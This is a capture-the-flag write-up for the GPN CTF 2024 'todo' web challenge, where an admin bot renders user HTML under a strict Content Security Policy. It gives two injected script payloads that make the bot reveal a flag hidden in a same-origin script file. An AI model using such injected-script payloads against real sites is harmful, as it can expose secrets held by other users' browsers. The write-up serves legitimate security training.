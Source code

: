 ```yaml
---
title: GPN CTF 2024 - todo - web
published: true
---
```


The challenge is a simple express app with a bot and a very strict [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP), which allows only for injected in-line javascript within `<script></script>` tags, and script from the same origin.

The bot visits the page, types in our HTML input, submits it and takes the screenshot of the page and sends it back to us.

## Unintended solution

We force the bot to open the `/script.js` containg the flag in the comment using an inline script tag, so we submit the following:

```html
<script>open("/script.js", "_self")</script>
```

## Intended solution

Most probably to override `toString` method of the `script.js` `FlagAPI` class, which looks as follows:

```js
class FlagAPI {
    constructor() {
        throw new Error("Not implemented yet!")
    }

    static valueOf() {
        return new FlagAPI()
    }

    static toString() {
        return "<FlagAPI>"
    }

    // TODO: Make sure that this is secure before deploying
    // getFlag() {
    //     return "GPNCTF{FAKE_FLAG_ADMINBOT_WILL_REPLACE_ME}"
    // }
}
```

The following payload would return the flag too:

```html
<script defer>
    let a = Function.prototype.toString.apply(FlagAPI);
    document.write(a);
</script>
```
